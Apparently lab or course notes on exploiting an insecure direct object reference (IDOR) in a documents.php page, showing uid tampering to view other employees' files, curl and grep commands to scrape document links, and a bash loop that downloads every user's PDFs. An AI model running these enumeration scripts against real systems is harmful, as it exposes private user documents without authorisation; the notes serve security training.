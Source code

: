 ### Scenario: Logged-in as standard user account, and checking documents

```bash
http://SERVER_IP:PORT/documents.php?uid=1

RESULT:
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

### uid=1 → uid=2

```html
http://SERVER_IP:PORT/documents.php?uid=2

If we look at the linked files, or if we click on them to view them,
we will notice that these are indeed different files, which appear to 
be the documents belonging to the employee with uid=2

RESULT:
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

**ALWAYS CHECK THE SOURCE CODE!**

## **MASS IDOR Enumeration**

The source code presents documents in the following format:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

### Capturing Document links

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

### Capturing Document names only

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

### Download each document (bash script)

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

```
